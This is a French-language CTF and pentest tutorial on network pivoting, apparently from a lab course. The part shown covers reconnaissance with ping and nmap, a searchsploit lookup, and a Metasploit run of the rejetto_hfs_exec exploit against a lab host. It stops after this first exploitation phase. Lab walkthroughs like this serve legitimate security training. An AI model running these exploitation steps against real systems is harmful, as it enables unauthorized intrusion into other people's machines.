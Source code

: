 # 🔄 Guide Pratique du Pivoting - CTF & Pentest

[← Retour à la table des matières](../README.md)

## 🎯 Scénario Type de Pivoting

### Architecture Cible
```
Attaquant (Kali) → Machine1 (Accessible) → Machine2 (Réseau Interne)
                   demo1.ine.local        demo2.ine.local
                   Port 80 - HFS         Port 80 - BadBlue
```

## 📋 Méthodologie Complète

### Phase 1 : Reconnaissance Initiale

#### Vérification de l'accessibilité
```bash
# Test de connectivité des cibles
ping -c 4 demo1.ine.local
ping -c 4 demo2.ine.local

# Résultat attendu :
# demo1.ine.local : ✅ Accessible
# demo2.ine.local : ❌ Non accessible (réseau interne)
```

#### Scan de la première cible
```bash
# Scan initial
nmap demo1.ine.local

# Scan détaillé du service web
nmap -sV -p80 demo1.ine.local
```

### Phase 2 : Exploitation de la Première Cible

#### Recherche d'exploits
```bash
# Recherche d'exploits pour le service identifié
searchsploit hfs
searchsploit "rejetto http file server"

# Résultat : exploit/windows/http/rejetto_hfs_exec disponible
```

#### Exploitation avec Metasploit
```bash
# Lancement de msfconsole
msfconsole -q

# Chargement du module d'exploit
use exploit/windows/http/rejetto_hfs_exec

# Configuration du module
set RHOSTS demo1.ine.local
show options

# Lancement de l'exploit
exploit
```